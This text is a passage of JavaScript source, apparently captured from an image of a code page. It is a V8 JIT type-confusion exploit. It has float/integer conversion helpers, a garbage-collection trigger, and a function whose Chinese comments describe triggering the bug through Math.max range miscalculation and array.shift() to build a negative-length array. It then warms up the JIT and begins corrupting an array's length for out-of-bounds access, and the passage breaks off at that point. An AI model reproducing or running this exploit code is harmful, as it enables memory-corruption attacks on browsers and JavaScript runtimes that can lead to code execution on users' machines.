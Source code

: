 ```
this.big_uint64 = new BigUint64Array(this.buf);
}
 
// float-->uint
f2i(f)
{
this.float64[0] = f;
return this.big_uint64[0];
}
// uint-->float
i2f(i)
{
this.big_uint64[0] = i;
return this.float64[0];
}
// 64-->32
f2half(val)
{
this.float64[0]= val;
let tmp = Array.from(this.uint32);
return tmp;
}
// 32-->64
half2f(val)
{
this.uint32.set(val);
return this.float64[0];
}
 
hex(a) {
return "0x" + a.toString(16);
}
 
gc() { for(let i = 0; i < 100; i++) { new ArrayBuffer(0x1000000); } }
}
 
function foo(flag) {
// 触发漏洞，使得len==1且Range为(-4294967295, 0)
let x = -1;
if (flag) x = 0xFFFF_FFFF;
let len = 0 - Math.max(0, x);
// 利用array.shift()来构造出长度为-1(0xFFFFFFFE)的数组
let vuln_array = new Array(len);
vuln_array.shift();
 
let oob_array = [1.1, 1.2, 1.3];
 
if (flag) {
//%DebugPrint(oob_array);
//%SystemBreak();
}
return [vuln_array, oob_array];
}
 
function confusion_to_oob() {
console.log("[+] convert confusion to oob......");
// 触发JIT
for (let i=0; i<0x10000; i++) {foo(false);}   
// gc
helper.gc();
// 修改oob_array的length
[vuln_array, oob_array] = foo(true);
vuln_array[16] = 0xc00c;
```